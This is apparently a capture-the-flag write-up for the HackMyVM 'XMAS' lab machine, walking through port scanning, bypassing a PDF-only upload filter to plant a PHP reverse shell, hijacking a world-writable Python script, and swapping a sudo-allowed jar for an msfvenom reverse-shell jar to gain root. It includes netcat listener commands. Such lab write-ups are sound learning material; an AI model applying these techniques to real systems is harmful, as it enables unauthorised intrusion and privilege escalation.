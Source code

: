 ```yaml
---
title: XMAS Writeup
date: 2024-03-23
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
  - HackMyVm
---
```


# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.1.63    08:00:27:b1:ae:10       PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a6:3e:0b:65:85:2c:0c:5e:47:14:a9:dd:aa:d4:8c:60 (ECDSA)
|_  256 99:72:b5:6e:1a:9e:70:b3:24:e0:59:98:a4:f9:d1:25 (ED25519)
80/tcp open  http    Apache httpd 2.4.55
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-title: Did not follow redirect to http://christmas.hmv
MAC Address: 08:00:27:B1:AE:10 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  

TRACEROUTE

HOP RTT     ADDRESS

1   0.93 ms xmas (192.168.1.63)
```

## Add hosts

```shell
echo "192.168.1.63 christmas.hmv" >> /etc/hosts
```

## File upload

We can see there is a upload function which we can possibly use.

![](/assets/img/XMAS/Upload_Function.png)
As we can see, we can only upload pdf files.

With uploading "php-reverse-shell.pdf" first, we can then use burp to intercept the request and change it into "php-reverse-shell.php". 

![](/assets/img/XMAS/Burp_upload.png)

```shell
nc -lnvp 4444
```

## Privilege Escalation 

By using "linpeas.sh", we can discover some interesting files.


![](/assets/img/XMAS/Linpeas_result.png)

```shell
drwxr-xr-x  2 root root 4096 Nov 20 18:39 NiceOrNaughty
-rwxrwxrw- 1 root root 2029 Nov 20 18:39 nice_or_naughty.py
```

As we see that we have the permission to write into the file "nice_or_naughty.py".
Hence we will do is to create a python reverse shell.

```shell
nc -lnvp 1234
```

Then we are able to login in to user alabaster

## Privilege Escalation 

```shell
alabaster@xmas:~/PublishList$ sudo -l
sudo -l
Matching Defaults entries for alabaster on xmas:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User alabaster may run the following commands on xmas:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /usr/bin/java -jar
        /home/alabaster/PublishList/PublishList.jar
```


```shell
alabaster@xmas:~/PublishList$cat PublishList.java
cat PublishList.java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;

public class PublishList {

    public static void main(String[] args) {

        String sourceFile1 = "/home/alabaster/nice_list.txt";
        String sourceFile2 = "/home/alabaster/naughty_list.txt";
        String destinationFolder = "/home/santa/";

        try {
            copyFile(sourceFile1, destinationFolder);
            copyFile(sourceFile2, destinationFolder);
            System.out.println("Files copied successfully!");
        } catch (IOException e) {
            System.out.println("Failed to copy files!");
            e.printStackTrace();
        }
    }

    private static void copyFile(String sourceFile, String destinationFolder) throws IOException {
        int bytesRead;
        FileInputStream in = new FileInputStream(sourceFile);
        FileOutputStream out = new FileOutputStream(destinationFolder + new File(sourceFile).getName());

        byte[] buffer = new byte[4096];
        while ((bytesRead = in.read(buffer)) != -1) {
            out.write(buffer, 0, bytesRead);
        }

        in.close();
        out.close();
    }
}
```

We did not see any things that we can use for privilege escalations.

```shell
-rw-rw-r-- 1 alabaster alabaster 7504 Mar 23 05:31 PublishList.jar
```

But we see that we have to permission to write into the file.

Therefore, we will do is to generate a jar reverse shell via msfvenom and transfer it to the server

```shell
mv shell.jar /home/alabaster/PublishList/PublishList.jar
```

```shell
sudo java -jar /home/alabaster/PublishList/PublishList.jar
```

Then we are able to get root permission


